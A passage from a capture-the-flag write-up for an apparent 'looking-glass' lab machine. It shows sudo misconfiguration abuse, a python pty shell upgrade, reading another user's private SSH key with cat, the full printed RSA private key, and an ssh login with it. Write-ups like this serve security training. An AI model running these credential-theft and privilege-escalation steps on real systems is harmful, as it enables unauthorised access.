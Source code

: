* `sudu -l` gives the following:
```
Matching Defaults entries for tweedledum on looking-glass:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tweedledum may run the following commands on looking-glass:
    (tweedledee) NOPASSWD: /bin/bash
```

* We can run `sudo -u tweedledee /bin/bash` and get the tweedledee user

### humptydumpty
* Both the tweedledee and tweedledum users have the humptydumpty password
	* Running `su humptydumpty` gives us `su: must be run from a terminal`
	* Thus, we can get an interactive shell with the following steps:
```
1. python3 -c 'import pty;pty.spawn("/bin/bash")'
2. CTRL + Z 
3. stty raw -echo
4. fg
```

### alice
* After a lot of searching, I found that I was able to read the private ssh key of the alice with `cat /home/alice/.ssh/id_rsa`:
`alice.key`
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEAxmPncAXisNjbU2xizft4aYPqmfXm1735FPlGf4j9ExZhlmmD
NIRchPaFUqJXQZi5ryQH6YxZP5IIJXENK+a4WoRDyPoyGK/63rXTn/IWWKQka9tQ
2xrdnyxdwbtiKP1L4bq/4vU3OUcA+aYHxqhyq39arpeceHVit+jVPriHiCA73k7g
HCgpkwWczNa5MMGo+1Cg4ifzffv4uhPkxBLLl3f4rBf84RmuKEEy6bYZ+/WOEgHl
fks5ngFniW7x2R3vyq7xyDrwiXEjfW4yYe+kLiGZyyk1ia7HGhNKpIRufPdJdT+r
NGrjYFLjhzeWYBmHx7JkhkEUFIVx6ZV1y+gihQIDAQABAoIBAQDAhIA5kCyMqtQj
X2F+O9J8qjvFzf+GSl7lAIVuC5Ryqlxm5tsg4nUZvlRgfRMpn7hJAjD/bWfKLb7j
/pHmkU1C4WkaJdjpZhSPfGjxpK4UtKx3Uetjw+1eomIVNu6pkivJ0DyXVJiTZ5jF
ql2PZTVpwPtRw+RebKMwjqwo4k77Q30r8Kxr4UfX2hLHtHT8tsjqBUWrb/jlMHQO
zmU73tuPVQSESgeUP2jOlv7q5toEYieoA+7ULpGDwDn8PxQjCF/2QUa2jFalixsK
WfEcmTnIQDyOFWCbmgOvik4Lzk/rDGn9VjcYFxOpuj3XH2l8QDQ+GO+5BBg38+aJ
cUINwh4BAoGBAPdctuVRoAkFpyEofZxQFqPqw3LZyviKena/HyWLxXWHxG6ji7aW
DmtVXjjQOwcjOLuDkT4QQvCJVrGbdBVGOFLoWZzLpYGJchxmlR+RHCb40pZjBgr5
8bjJlQcp6pplBRCF/OsG5ugpCiJsS6uA6CWWXe6WC7r7V94r5wzzJpWBAoGBAM1R
aCg1/2UxIOqxtAfQ+WDxqQQuq3szvrhep22McIUe83dh+hUibaPqR1nYy1sAAhgy
wJohLchlq4E1LhUmTZZquBwviU73fNRbID5pfn4LKL6/yiF/GWd+Zv+t9n9DDWKi
WgT9aG7N+TP/yimYniR2ePu/xKIjWX/uSs3rSLcFAoGBAOxvcFpM5Pz6rD8jZrzs
SFexY9P5nOpn4ppyICFRMhIfDYD7TeXeFDY/yOnhDyrJXcbOARwjivhDLdxhzFkx
X1DPyif292GTsMC4xL0BhLkziIY6bGI9efC4rXvFcvrUqDyc9ZzoYflykL9KaCGr
+zlCOtJ8FQZKjDhOGnDkUPMBAoGBAMrVaXiQH8bwSfyRobE3GaZUFw0yreYAsKGj
oPPwkhhxA0UlXdITOQ1+HQ79xagY0fjl6rBZpska59u1ldj/BhdbRpdRvuxsQr3n
aGs//N64V4BaKG3/CjHcBhUA30vKCicvDI9xaQJOKardP/Ln+xM6lzrdsHwdQAXK
e8wCbMuhAoGBAOKy5OnaHwB8PcFcX68srFLX4W20NN6cFp12cU2QJy2MLGoFYBpa
dLnK/rW4O0JxgqIV69MjDsfRn1gZNhTTAyNnRMH1U7kUfPUB2ZXCmnCGLhAGEbY9
k6ywCnCtTz2/sNEgNcx9/iZW+yVEm/4s9eonVimF+u19HJFOPJsAYxx0
-----END RSA PRIVATE KEY-----
```
* We can put this in a file on our local system, change permissions with `chmod 600 alice.key`, and ssh in with `ssh alice@10.10.156.153 -i alice.key`
